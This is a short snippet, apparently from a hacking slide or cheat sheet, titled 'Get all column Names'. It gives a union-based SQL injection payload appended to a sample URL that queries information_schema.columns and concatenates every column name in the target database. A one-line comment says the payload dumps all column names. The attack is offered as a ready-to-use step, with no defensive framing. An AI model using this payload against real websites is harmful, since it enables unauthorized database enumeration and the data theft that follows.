

# Get all column Names

www.site.com/page=1 union all select 1,2,group_concat(column_name),4 from information_schema.columns where table_schema=database()–
spit out ALL the column names in the database